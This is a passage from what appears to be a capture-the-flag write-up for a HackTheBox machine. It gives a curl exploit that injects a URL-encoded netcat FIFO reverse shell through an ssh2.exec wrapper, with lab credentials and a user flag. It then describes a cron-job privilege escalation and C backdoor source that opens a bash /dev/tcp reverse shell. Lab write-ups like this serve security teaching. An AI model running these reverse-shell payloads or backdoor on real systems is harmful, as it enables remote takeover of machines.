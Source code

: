 Practical issues encountered when constructing the exploit URL:

* Complex shell commands break in URL parameters if not encoded correctly.
* Base64 variations can include `+` which decodes to spaces in certain contexts — payloads were adjusted to avoid problematic characters.
* Initial payloads failed to connect; switching to a FIFO-based `nc` reverse shell improved reliability.

**Listener:**

```bash
nc -lvnp 443
```

**Exploit (example, IPs and session cookie redacted here — substitute your listener IP and valid PHPSESSID):**

```bash
curl -b 'PHPSESSID=...' \
'http://file.era.htb/download.php?id=54&show=true&format=ssh2.exec://eric:america@127.0.0.1/bash%20-c%20mkfifo%20/tmp/f%3Bnc%2010.10.16.46%20443%200%3C/tmp/f%20%7C%20/bin/bash%201%3E/tmp/f%3Brm%20/tmp/f'
```

**Result:** Successful shell obtained as user `eric`.

**User flag (example):** `0569bcf07204d03f0be4caba49d4768a`

---

## Phase 6 - Privilege Escalation via Writable Cron Job

### Initial post-exploitation enumeration

Typical checks:

* `sudo -l` — no usable sudo privileges
* Look for SUID binaries — none exploitable found
* Check home directories — `/home/yuri` had restricted permissions (e.g. `drwxr-x---`)

### Cron job discovery

Found a root-run cron job that referenced `/opt/AV/periodic-checks/monitor`. The directory contained:

* `monitor` — executable run by root's cron
* `status.log` — logging file
* `text_sig` — signature verification section used by the monitor binary

Permissions indicated the `eric` user could write, compile, and execute files inside this directory.

### Building a backdoor and bypassing signature checks

**Backdoor C source (example):**

```c
#include <stdlib.h>
int main() {
    system("/bin/bash -c \"bash -i >& /dev/tcp/10.x.x.46/443 0>&1\"");
    return 0;
}
```
